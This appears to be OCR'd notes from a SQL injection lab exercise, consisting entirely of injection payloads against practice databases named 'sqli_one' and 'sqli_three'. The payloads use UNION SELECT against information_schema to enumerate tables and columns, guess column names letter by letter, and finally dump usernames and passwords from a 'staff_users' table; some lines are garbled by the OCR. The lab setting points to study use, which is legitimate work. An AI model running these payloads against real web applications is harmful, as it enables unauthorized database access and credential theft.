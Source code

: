 admin123' UNION SELECT 1,2,3 FROM information_schema.tables 
WHERE table_schema = 'sqli_three' and table_name like 'a%';--

select * from users where username = 'admin123' UNION SELECT 1,2,3 
FROM information_schema.tables WHERE table_schema = 'sqli_three' and 
table_name='users';--' LIMIT 1 

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and 
COLUMN_NAME like 'a%';

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and 
COLUMN_NAME like 'b%' and COLUMN_NAME !='id';

select * from article where id = 0 UNION SELECT 1,2,group_concat(table_name) 
FROM information_schema.tables WHERE table_schema = 'sqli_one'
<= 0 UNION SELECT 1,2,group_concat(table_name) 
FROM information_schema.tables WHERE table_schema = 'sqli_one'

select * from article where id = 0 UNION SELECT 1,2,group_concat(column_name) 
FROM information_schema.columns WHERE table_name = 'staff_users'
<= 0 UNION SELECT 1,2,group_concat(column_name) 
FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') 
FROM staff_users
